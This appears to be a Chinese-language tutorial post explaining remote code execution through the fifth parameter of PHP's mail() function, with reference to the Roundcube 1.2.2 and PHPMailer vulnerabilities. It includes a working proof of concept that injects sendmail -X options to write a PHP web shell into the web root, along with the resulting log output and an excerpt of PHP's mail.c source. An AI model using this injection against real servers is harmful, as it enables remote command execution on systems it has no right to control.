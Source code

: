 php manual 手册上的介绍

	bool mail ( string $to , string $subject , string $message [, mixed $additional_headers [, string $additional_parameters ]] )

```
To 目的邮箱地址
Subject 邮箱的主题
Message 邮件的主题部分
Headers 头信息
Parameters 参数设置
```

```
<?php
$to      = 'nobody@example.com';
$subject = 'the subject';
$message = 'hello';
$headers = 'From: webmaster@example.com' . "\r\n" .
    'Reply-To: webmaster@example.com' . "\r\n" .
    'X-Mailer: PHP/' . phpversion();

mail($to, $subject, $message, $headers);
?>
```

PHP中的mail()函数在一定的条件下可以造成远程代码执行漏洞，mail()函数一共具有5个参数，当第五个参数存在并且我们可控的时候，就会造成代码执行漏洞，这个漏洞最近被RIPS爆出了一个command execution via email in Roundcube 1.2.2，就是由于不正当的使用了mail()函数并且未对参数加以过滤造成的。



这个参数主要的选项有：
```
-O option = value
QueueDirectory = queuedir 选择队列消息

-X logfile
这个参数可以指定一个目录来记录发送邮件时的详细日志情况，我们正式利用这个参数来达到我们的目的。

-f from email
这个参数可以让我们指定我们发送邮件的邮箱地址。
```

现在我们尝试在本地复现出这个漏洞，注意事项：

```
目标系统必须使用函数mail发送邮件，而不是使用SMTP的服务器；
mail函数需要配置实用sendmail系统来进行邮件的发送；
PHP配置中必须关闭safe_mode功能；
必须知道目标服务器的Web根目录
```

test.php

```
$to = 'a@b.c';
$subject = '<?php system($_GET["cmd"]); ?>';
$message = '';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/var/www/html/rce.php';
mail($to, $subject, $message, $headers, $options);
```

运行即可再/var/www/html/目录下生成rce.php文件，内容为:

```
32512 <<< To: a@b.c
32512 <<< Subject: <?php system($_GET["cmd"]); ?>
32512 <<< X-PHP-Originating-Script: 0:mail.php
32512 <<< 
32512 <<< 
32512 <<< [EOF]
32512 === CONNECT [127.0.0.1]
32512 <<< 220 lj ESMTP Sendmail 8.15.2/8.15.2/Debian-3; Sun, 30 Sep 2018 16:32:30 +0800; (No UCE/UBE) logging access from: localhost(OK)-localhost [127.0.0.1]
32512 >>> EHLO lj
32512 <<< 250-lj Hello localhost [127.0.0.1], pleased to meet you
32512 <<< 250-ENHANCEDSTATUSCODES
32512 <<< 250-PIPELINING
32512 <<< 250-EXPN
32512 <<< 250-VERB
32512 <<< 250-8BITMIME
32512 <<< 250-SIZE
32512 <<< 250-DSN
32512 <<< 250-ETRN
32512 <<< 250-AUTH DIGEST-MD5 CRAM-MD5
32512 <<< 250-DELIVERBY
32512 <<< 250 HELP
32512 >>> MAIL From:<root@lj> SIZE=89 AUTH=root@lj
32512 <<< 250 2.1.0 <root@lj>... Sender ok
32512 >>> RCPT To:<a@b.c>
32512 >>> DATA
32512 <<< 250 2.1.5 <a@b.c>... Recipient ok
32512 <<< 354 Enter mail, end with "." on a line by itself
32512 >>> Received: (from root@localhost)
32512 >>> 	by lj (8.15.2/8.15.2/Submit) id w8U8WToP032512;
32512 >>> 	Sun, 30 Sep 2018 16:32:29 +0800
32512 >>> Date: Sun, 30 Sep 2018 16:32:29 +0800
32512 >>> From: root <root@lj>
32512 >>> Message-Id: <201809300832.w8U8WToP032512@lj>
32512 >>> To: a@b.c
32512 >>> Subject: <?php system($_GET["cmd"]); ?>
32512 >>> X-PHP-Originating-Script: 0:mail.php
32512 >>> 
32512 >>> 
32512 >>> .
32512 <<< 250 2.0.0 w8U8WUsh032770 Message accepted for delivery
32512 >>> QUIT
32512 <<< 221 2.0.0 lj closing connection
```

我们指定好使用mail函数时的五个参数，在第二个参数中放入我们打算写入的内容，第五个参数中指定我们要写入的目录（必须是PHP文件）

截取片段mail.c的源码
```
PHPAPI int php_mail(char *to, char *subject, char *message, char *headers, char *extra_cmd TSRMLS_DC)
{
#if (defined PHP_WIN32 || defined NETWARE)
	int tsm_err;
	char *tsm_errmsg = NULL;
#endif
	FILE *sendmail;
	int ret;
	char *sendmail_path = INI_STR("sendmail_path");
	char *sendmail_cmd = NULL;
	char *mail_log = INI_STR("mail.log");
	char *hdr = headers;
#if PHP_SIGCHILD
	void (*sig_handler)() = NULL;
#endif

...

	if (extra_cmd != NULL) {
		spprintf(&sendmail_cmd, 0, "%s %s", sendmail_path, extra_cmd);
	} else {
		sendmail_cmd = sendmail_path;
	}

...

#ifdef PHP_WIN32
	sendmail = popen_ex(sendmail_cmd, "wb", NULL, NULL TSRMLS_CC);
#else
	/* Since popen() doesn't indicate if the internal fork() doesn't work
	 * (e.g. the shell can't be executed) we explicitly set it to 0 to be
	 * sure we don't catch any older errno value. */
	errno = 0;
	sendmail = popen(sendmail_cmd, "w");
#endif
	if (extra_cmd != NULL) {
		efree (sendmail_cmd);
	}
```

我们可以看到mail函数的底层实际上是调用sendmail 函数来执行命令的。


PHPMailer < 5.2.18和Roundcube 两个应用都爆出来过mail函数导致的命令执行漏洞。

Roundcube 1.2.2 远程命令执行漏洞分析 https://paper.seebug.org/138/
